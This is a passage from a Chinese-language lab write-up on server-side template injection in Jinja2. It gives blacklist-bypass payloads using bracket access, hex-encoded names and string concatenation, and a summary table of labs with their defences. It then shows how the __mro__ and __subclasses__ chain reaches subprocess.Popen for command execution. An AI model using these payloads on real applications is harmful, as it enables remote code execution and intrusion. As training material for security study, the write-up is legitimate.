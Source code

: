 #### 详细步骤

1. **字符替换**：

   - 使用 `[]` 替代 `.`：

     ```
     {{ self["__init__"]["__globals__"]["__builtins__"]["__import__"]("os") }}
     ```

2. **编码绕过**：

   - 十六进制编码关键字：

     ```
     {{ self|attr("\x5f\x5finit\x5f\x5f") }}  # "__init__"
     ```

3. **字符串拼接**：

   - 使用 `~` 或 `+` 拼接字符串：

     ```
     {{ (("__ini"+"t__")|attr) }}  # 拼接 "__init__"
     ```

#### 知识点

- **黑名单绕过**：灵活使用编码、拼接和替代语法。
- **过滤器利用**：`attr()`、`join()` 等方法构造 Payload。

------

### 总结

| 实验编号 | 核心漏洞         | 利用技巧                     | 绕过方法                | 防御措施             |
| :------- | :--------------- | :--------------------------- | :---------------------- | :------------------- |
| 1        | 基础模板注入验证 | 数学运算探测引擎类型         | 无                      | 过滤 `{{}}` 或 `${}` |
| 2        | 隐蔽输入点注入   | 触发间接功能（邮件、日志）   | 无                      | 限制模板渲染上下文   |
| 3        | 代码执行（RCE）  | 对象链调用访问 `os` 模块     | 使用 `attr()` 替代 `.`  | 禁用危险函数         |
| 4        | 沙箱逃逸         | 利用框架内置对象（`config`） | 上下文链式调用          | 启用严格沙箱模式     |
| 5        | 盲注与引擎识别   | 条件语句/时间延迟探测引擎    | 多语法测试              | 统一模板引擎配置     |
| 6        | 黑名单过滤绕过   | 编码/拼接关键字              | 十六进制编码、`[]` 替代 | 白名单校验输入内容   |

## 二、SSTI-LAB

------

### 关卡1：基础Jinja2 SSTI

- **解题思路**
  1. 输入`{{7*7}}`确认存在SSTI（输出`49`）。
  2. 通过类继承链获取`object`子类：
     `{{''.__class__.__mro__[1].__subclasses__()}}`
  3. 在子类列表中查找可执行命令的类（如`subprocess.Popen`），构造Payload执行命令。
- **关键知识点**
  - Jinja2模板语法（`{{}}`）。
  - Python类继承链（`__class__`、`__mro__`、`__subclasses__`）。
  - 利用危险子类（如`subprocess.Popen`）实现RCE。
